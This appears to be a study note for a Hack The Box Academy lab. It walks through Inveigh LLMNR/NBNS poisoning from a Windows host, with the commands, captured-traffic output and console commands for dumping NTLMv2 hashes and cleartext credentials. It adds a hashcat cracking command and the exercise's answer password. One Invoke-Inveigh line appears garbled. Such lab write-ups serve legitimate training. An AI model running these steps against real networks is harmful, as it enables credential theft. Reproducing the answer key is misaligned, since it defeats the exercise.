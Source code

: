 If we end up with a Windows host as our attack box, use [Inveigh](https://github.com/Kevin-Robertson/Inveigh) tool to capture another set of credentials.
## Using Inveigh

-  List all possible parameters.
```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```

Let's start Inveigh with LLMNR and NBNS spoofing, and output to the console and write to a file. We will leave the rest of the defaults, which can be seen [here](https://github.com/Kevin-Robertson/Inveigh#parameter-help).

```powershell-session
PS C:\htb> Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

## C# Inveigh (InveighZero)
Let's go ahead and run the C# version with the defaults and start capturing hashes.

```powershell-session
PS C:\htb> .\Inveigh.exe

[*] Inveigh 2.0.4 [Started 2022-02-28T20:03:28 | PID 6276]
[+] Packet Sniffer Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Listener Addresses [IP 0.0.0.0 | IPv6 ::]
[+] Spoofer Reply Addresses [IP 172.16.5.25 | IPv6 fe80::dcec:2831:712b:c9a3%8]
[+] Spoofer Options [Repeat Enabled | Local Attacks Disabled]
[ ] DHCPv6
[+] DNS Packet Sniffer [Type A]
[ ] ICMPv6
[+] LLMNR Packet Sniffer [Type A]
[ ] MDNS
[ ] NBNS
[+] HTTP Listener [HTTPAuth NTLM | WPADAuth NTLM | Port 80]
[ ] HTTPS
[+] WebDAV [WebDAVAuth NTLM]
[ ] Proxy
[+] LDAP Listener [Port 389]
[+] SMB Packet Sniffer [Port 445]
[+] File Output [C:\Tools]
[+] Previous Session Files (Not Found)
[*] Press ESC to enter/exit interactive console
[!] Failed to start HTTP listener on port 80, check IP and port usage.
[!] Failed to start HTTPv6 listener on port 80, check IP and port usage.
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:31] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:31] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:31] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:03:31] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[ ] [20:03:32] mDNS(QM)(A) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:32] mDNS(QM)(AAAA) request [academy-ea-web0.local] from 172.16.5.125 [disabled]
[ ] [20:03:32] mDNS(QM)(A) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[ ] [20:03:32] mDNS(QM)(AAAA) request [academy-ea-web0.local] from fe80::f098:4f63:8384:d1d0%8 [disabled]
[+] [20:03:32] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[-] [20:03:32] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[+] [20:03:32] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:03:32] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
```

- The options with a `[+]` are default and enabled by default and the ones with a `[ ]` before them are disabled.
- Message `Press ESC to enter/exit interactive console`, which is very useful while running the tool. The console gives us access to captured credentials/hashes, allows us to stop Inveigh, and more.

Hit the `esc` key to enter the console while Inveigh is running.

```powershell-session
<SNIP>

[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from 172.16.5.125 [response sent]
[+] [20:10:24] LLMNR(A) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [response sent]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from fe80::f098:4f63:8384:d1d0%8 [type ignored]
[-] [20:10:24] LLMNR(AAAA) request [academy-ea-web0] from 172.16.5.125 [type ignored]
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61310
[.] [20:10:24] TCP(1433) SYN packet from 172.16.5.125:61311
C(0:0) NTLMv1(0:0) NTLMv2(3:9)> HELP
```

After typing `HELP` and hitting enter, we are presented with several options:

```powershell-session
=============================================== Inveigh Console Commands ===============================================

Command                           Description
========================================================================================================================
GET CONSOLE                     | get queued console output
GET DHCPv6Leases                | get DHCPv6 assigned IPv6 addresses
GET LOG                         | get log entries; add search string to filter results
GET NTLMV1                      | get captured NTLMv1 hashes; add search string to filter results
GET NTLMV2                      | get captured NTLMv2 hashes; add search string to filter results
GET NTLMV1UNIQUE                | get one captured NTLMv1 hash per user; add search string to filter results
GET NTLMV2UNIQUE                | get one captured NTLMv2 hash per user; add search string to filter results
GET NTLMV1USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv1 hashes
GET NTLMV2USERNAMES             | get usernames and source IPs/hostnames for captured NTLMv2 hashes
GET CLEARTEXT                   | get captured cleartext credentials
GET CLEARTEXTUNIQUE             | get unique captured cleartext credentials
GET REPLYTODOMAINS              | get ReplyToDomains parameter startup values
GET REPLYTOHOSTS                | get ReplyToHosts parameter startup values
```

- View unique captured hashes by typing `GET NTLMV2UNIQUE`.
- Type in `GET NTLMV2USERNAMES` and see which usernames we have collected.

---
# Practical Exercises
- Run Inveigh and capture the NTLMv2 hash for the svc_qualys account. Crack and submit the cleartext password as the answer.

```
.\Inveigh.exe
GET NTLMV2UNIQUE
```

![](../../../Image/Pasted%20image%2020250607234051.png)

```
sudo hashcat -m 5600 svc_qualys /usr/share/wordlists/rockyou.txt
```

![](../../../Image/Pasted%20image%2020250607234113.png)

=> Answer: **security#1**